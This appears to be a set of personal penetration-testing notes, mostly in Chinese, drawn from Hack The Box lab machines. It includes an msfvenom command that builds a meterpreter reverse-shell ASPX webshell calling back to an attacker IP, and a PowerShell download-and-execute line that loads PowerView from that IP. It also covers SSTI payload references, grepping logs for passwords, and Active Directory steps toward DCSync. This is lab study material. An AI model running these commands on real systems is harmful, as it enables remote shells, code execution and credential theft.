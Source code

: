   

- 打开 `*.db` 文件时，可以用 kali 自带工具 sqlite3

  ```
  sqlite3 Audit.db
  ```
  
  

- `AD Recycle Bin` 組， gives a PowerShell command to query all of the deleted objects within a domain

  详情见 Cascade 靶机

  ```
  Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
  Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
  ```

  

- msf 生成 webshell

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=2233 -f aspx > met_rev_2233.aspx
  ```

  


- python网站注意 ssti 模板注入，可直接找 payload 

  ```http
  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset
  ```

  ```http
  https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python
  ```


​        可以参考  [HTB: Doctor | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/02/06/htb-doctor.html#template-injection)



- 二次信息搜集时，注意到 web 日志，找重要信息

  ```bash
  web@doctor:/var/log$ grep -r passw . 2>/dev/null
  ```

  

-  writeDac 到域控 ， DCSync， [记一次靶场域场景之域渗透-NTLM中继攻击思路 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/306668.html)，可参考 Forest 靶机

  ```powershell
  # 远程导入 PowerView.ps1
  powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/PowerView.ps1')"
  # 或者本地导入
  . .\PowerView.ps1 
  ```
